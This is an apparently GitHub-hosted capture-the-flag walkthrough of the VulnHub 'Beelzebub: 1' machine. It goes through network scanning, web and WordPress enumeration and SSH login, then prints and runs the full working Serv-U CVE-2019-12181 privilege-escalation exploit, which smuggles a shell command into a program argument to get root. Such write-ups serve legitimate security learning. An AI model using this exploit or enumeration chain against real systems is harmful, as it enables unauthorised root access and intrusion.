





# Beelzebub: 1
'https://www.vulnhub.com/entry/beelzebub-1,742/'

## Discovery
### Command used: arp-scan<br>
<br>

```
sudo arp-scan --interface=ens33 --localnet

Interface: ens33, type: EN10MB, MAC: 00:0c:29:01:a5:1c, IPv4: 172.16.250.97
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)

172.16.250.92	08:00:27:dc:40:fa	PCS Systemtechnik GmbH
```

## Port scan

### Command used: nmap
<br>

```
nmap -A -T4 -p- beel.vh

Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-29 14:54 CDT
Nmap scan report for beel.vh (172.16.250.92)
Host is up (0.00073s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20:d1:ed:84:cc:68:a5:a7:86:f0:da:b8:92:3f:d9:67 (RSA)
|   256 78:89:b3:a2:75:12:76:92:2a:f9:8d:27:c1:08:a7:b9 (ECDSA)
|_  256 b8:f4:d6:61:cf:16:90:c5:07:18:99:b0:7c:70:fd:c0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 173.16 seconds
```

Browsing thet URL gave us the default Apache page. Nothing exciting, so we enumerate the directories. 

## HTTP enumeration

### Command used: gobuster
<br>

```
gobuster dir --url http://beel.vh --wordlist /usr/share/dirb/wordlists/common.txt 

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://beel.vh
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/29 15:41:54 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 272]
/.htaccess            (Status: 403) [Size: 272]
/.htpasswd            (Status: 403) [Size: 272]
/index.php            (Status: 200) [Size: 271]
/index.html           (Status: 200) [Size: 10918]
/javascript           (Status: 301) [Size: 307] [--> http://beel.vh/javascript/]
/phpmyadmin           (Status: 301) [Size: 307] [--> http://beel.vh/phpmyadmin/]
/phpinfo.php          (Status: 200) [Size: 95394]                               
/server-status        (Status: 403) [Size: 272]                                 
                                                                                
===============================================================
2022/06/29 15:41:58 Finished
===============================================================
```

"*index.php*" returned nothing, but the HTML of the page gave us some direction.

<br><br>

```html
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<!--My heart was encrypted, "beelzebub" somehow hacked and decoded it.-md5-->
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.30 (Ubuntu)</address>
</body></html>
```

Converting "beelzebub" to MD5 gave us the following string:

```
echo -n "beelzebub" | md5sum

d18e1e22becbd915b45e0e655429d487
```

Navigating to "*/d18e1e22becbd915b45e0e655429d487*" times out. However, watching the request in Burp Suite indicates an attempted redirect to another IP address, indicating there is something there:

<br><br>

So, we go back to gobuster, using the MD5 string:

```
gobuster dir -u http://beel.vh/d18e1e22becbd915b45e0e655429d487 --wordlist /usr/share/dirb/wordlists/common.txt 

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://beel.vh/d18e1e22becbd915b45e0e655429d487
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/29 15:54:09 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 272]
/.htaccess            (Status: 403) [Size: 272]
/.htpasswd            (Status: 403) [Size: 272]
/index.php            (Status: 200) [Size: 57718]
/wp-admin             (Status: 301) [Size: 338] [--> http://beel.vh/d18e1e22becbd915b45e0e655429d487/wp-admin/]
/wp-content           (Status: 301) [Size: 340] [--> http://beel.vh/d18e1e22becbd915b45e0e655429d487/wp-content/]
/wp-includes          (Status: 301) [Size: 341] [--> http://beel.vh/d18e1e22becbd915b45e0e655429d487/wp-includes/]
/xmlrpc.php           (Status: 405) [Size: 42]                                                                    
                                                                                                                  
===============================================================
2022/06/29 15:54:13 Finished
===============================================================
```

The presence of "*/wp-xxxx*" indicates the server is running WordPress, so we fire up WPScan. Since it keeps trying to redirect us, we add in "--ignore-main-redirect":

```
wpscan --api-token ####################### --url http://beel.vh/d18e1e22becbd915b45e0e655429d487 -e --plugins-detection aggressive --ignore-main-redirect --force
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.21
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]y
[i] Updating the Database ...
[i] Update completed.

[+] URL: http://beel.vh/d18e1e22becbd915b45e0e655429d487/ [172.16.250.92]
[+] Started: Wed Jun 29 16:08:01 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.29 (Ubuntu)
 |  - X-Redirect-By: WordPress
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://beel.vh/d18e1e22becbd915b45e0e655429d487/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://beel.vh/d18e1e22becbd915b45e0e655429d487/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://beel.vh/d18e1e22becbd915b45e0e655429d487/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://beel.vh/d18e1e22becbd915b45e0e655429d487/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.3.12 identified (Latest, released on 2022-03-11).
 | Found By: Atom Generator (Aggressive Detection)
 |  - http://beel.vh/d18e1e22becbd915b45e0e655429d487/index.php/feed/atom/, <generator uri="https://wordpress.org/" version="5.3.12">WordPress</generator>
 | Confirmed By: Style Etag (Aggressive Detection)
 |  - http://beel.vh/d18e1e22becbd915b45e0e655429d487/wp-admin/load-styles.php, Match: '5.3.12'

[i] The main theme could not be detected.

[+] Enumerating Vulnerable Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:00:33 <============================================================================================================> (4654 / 4654) 100.00% Time: 00:00:33

[i] No plugins Found.

[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:00 <==============================================================================================================> (472 / 472) 100.00% Time: 00:00:00

[i] No themes Found.

[+] Enumerating Timthumbs (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:01 <============================================================================================================> (2568 / 2568) 100.00% Time: 00:00:01

[i] No Timthumbs Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <===============================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Enumerating DB Exports (via Passive and Aggressive Methods)
 Checking DB Exports - Time: 00:00:00 <=====================================================================================================================> (71 / 71) 100.00% Time: 00:00:00

[i] No DB Exports Found.

[+] Enumerating Medias (via Passive and Aggressive Methods) (Permalink setting must be set to "Plain" for those to be detected)
 Brute Forcing Attachment IDs - Time: 00:00:01 <==========================================================================================================> (100 / 100) 100.00% Time: 00:00:01

[i] Medias(s) Identified:

[+] http://beel.vh/d18e1e22becbd915b45e0e655429d487/?attachment_id=38
 | Found By: Attachment Brute Forcing (Aggressive Detection)

[+] http://beel.vh/d18e1e22becbd915b45e0e655429d487/?attachment_id=39
 | Found By: Attachment Brute Forcing (Aggressive Detection)

[+] http://beel.vh/d18e1e22becbd915b45e0e655429d487/?attachment_id=42
 | Found By: Attachment Brute Forcing (Aggressive Detection)

[+] http://beel.vh/d18e1e22becbd915b45e0e655429d487/?attachment_id=44
 | Found By: Attachment Brute Forcing (Aggressive Detection)

[+] http://beel.vh/d18e1e22becbd915b45e0e655429d487/?attachment_id=48
 | Found By: Attachment Brute Forcing (Aggressive Detection)

[+] http://beel.vh/d18e1e22becbd915b45e0e655429d487/?attachment_id=49
 | Found By: Attachment Brute Forcing (Aggressive Detection)

[+] http://beel.vh/d18e1e22becbd915b45e0e655429d487/?attachment_id=51
 | Found By: Attachment Brute Forcing (Aggressive Detection)

[+] http://beel.vh/d18e1e22becbd915b45e0e655429d487/?attachment_id=74
 | Found By: Attachment Brute Forcing (Aggressive Detection)

[+] http://beel.vh/d18e1e22becbd915b45e0e655429d487/?attachment_id=75
 | Found By: Attachment Brute Forcing (Aggressive Detection)

[+] http://beel.vh/d18e1e22becbd915b45e0e655429d487/?attachment_id=77
 | Found By: Attachment Brute Forcing (Aggressive Detection)

[+] http://beel.vh/d18e1e22becbd915b45e0e655429d487/?attachment_id=96
 | Found By: Attachment Brute Forcing (Aggressive Detection)

[+] http://beel.vh/d18e1e22becbd915b45e0e655429d487/?attachment_id=99
 | Found By: Attachment Brute Forcing (Aggressive Detection)

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] valak
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] krampus
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 1
 | Requests Remaining: 74

[+] Finished: Wed Jun 29 16:09:37 2022
[+] Requests Done: 8072
[+] Cached Requests: 9
[+] Data Sent: 2.56 MB
[+] Data Received: 19.493 MB
[+] Memory used: 195.25 MB
[+] Elapsed time: 00:01:36

```

We get two useful bits of information from WPScan. First, we have some users identified. Second, we know there is an "*/uploads*" folder. 

<br><br>

<br><br>

"Saying Hi to VALAK" does not do anything interesting, so we go back to Burp Suite. When we click the button, we can see that there is a stored password in the cookies:

<br><br>

## SSH and root access<br>

Using the accounts found by WPScan and the password found by Burp Suite, we try and login via SSH:

```
ssh valak@beel.vh
valak@beel.vh's password: 
Permission denied, please try again.
valak@beel.vh's password: 

ssh krampus@beel.vh
krampus@beel.vh's password: 

Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.3.0-53-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

444 packages can be updated.
324 updates are security updates.

New release '20.04.4 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Your Hardware Enablement Stack (HWE) is supported until April 2023.
Last login: Sat Mar 20 00:38:04 2021 from 192.168.1.7
krampus@beelzebub:~$ 
krampus@beelzebub:~$ ls -alh
total 104K
drwsrwxrwx 17 krampus krampus 4.0K Mar 20  2021 .
drwxr-xr-x  3 root    root    4.0K Mar 16  2021 ..
-rw-------  1 krampus krampus 1.4K Mar 20  2021 .bash_history
drwx------ 11 krampus krampus 4.0K Mar 20  2021 .cache
drwxrwxrwx 14 krampus krampus 4.0K May 26  2020 .config
drwxrwxrwx  3 krampus krampus 4.0K Oct 20  2019 .dbus
drwxrwxrwx  2 krampus krampus 4.0K Mar 19  2021 Desktop
drwxrwxrwx  2 krampus krampus 4.0K Apr  8  2020 Documents
drwxrwxrwx  2 krampus krampus 4.0K Mar 19  2021 Downloads
drwxrwxrwx  3 krampus krampus 4.0K Oct 20  2019 .gnupg
drwxrwxrwx  2 krampus krampus 4.0K Oct 20  2019 .gvfs
-rwxrwxrwx  1 krampus krampus  13K Mar 20  2021 .ICEauthority
drwxr-xr-x  3 krampus krampus 4.0K Mar 19  2021 .local
drwxrwxrwx  5 krampus krampus 4.0K Apr  2  2020 .mozilla
drwxrwxrwx  2 krampus krampus 4.0K Oct 20  2019 Music
drwxrwxrwx  2 krampus krampus 4.0K Oct 21  2019 Pictures
-rwxrwxrwx  1 krampus krampus  807 Oct 20  2019 .profile
drwxrwxrwx  2 krampus krampus 4.0K Oct 20  2019 Public
-rwxrwxrwx  1 krampus krampus   66 Oct 20  2019 .selected_editor
-rw-rw-r--  1 krampus krampus   83 May 26  2020 .Serv-U-Tray.conf
-rwxrwxrwx  1 krampus krampus    0 Oct 20  2019 .sudo_as_admin_successful
drwxrwxrwx  2 krampus krampus 4.0K Oct 20  2019 Templates
drwxrwxrwx  2 krampus krampus 4.0K Oct 20  2019 Videos
-rw-rw-r--  1 krampus krampus  173 Mar 20  2021 .wget-hsts
```

Digging around the directories, we find the first "*user.txt*" flag:

```
krampus@beelzebub:~$ ls
Desktop  Documents  Downloads  Music  Pictures	Public	Templates  Videos
krampus@beelzebub:~$ cd Desktop/
krampus@beelzebub:~/Desktop$ ls
user.txt
krampus@beelzebub:~/Desktop$ cat user.txt 
aq12uu909a0q921a2819b05568a992m9
```

Next up is the .bash_history file. There were many random entries, but this stood out:

```
clear
wget https://www.exploit-db.com/download/47009
clear
```

## Software exploitation
<br>
Looking at this exploit, we can see that it is meant for Serv-U. Judging by the "*Serv-U-Tray.conf*" file, we can determine that Serv-U is running on the server.<br><br>

"*47009.c*"

```c
/*

CVE-2019-12181 Serv-U 15.1.6 Privilege Escalation 

vulnerability found by:
Guy Levin (@va_start - twitter.com/va_start) https://blog.vastart.dev

to compile and run:
gcc servu-pe-cve-2019-12181.c -o pe && ./pe

*/

#include <stdio.h>
#include <unistd.h>
#include <errno.h>

int main()
{       
    char *vuln_args[] = {"\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", NULL};
    int ret_val = execv("/usr/local/Serv-U/Serv-U", vuln_args);
    // if execv is successful, we won't reach here
    printf("ret val: %d errno: %d\n", ret_val, errno);
    return errno;
}
```

So, like the instructions say, we compile and run it!

```
krampus@beelzebub:~$ nano .Serv-U-Tray.conf 
krampus@beelzebub:~$ nano exploit.c
krampus@beelzebub:~$ gcc exploit.c -o pe && ./pe
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(krampus)
opening root shell
# whoami
root
# 
```

From here, we find our final "*root.txt*" flag:

```
# cd /root
# ls
root.txt
# cat root.txt	
8955qpasq8qq807879p75e1rr24cr1a5
# 
```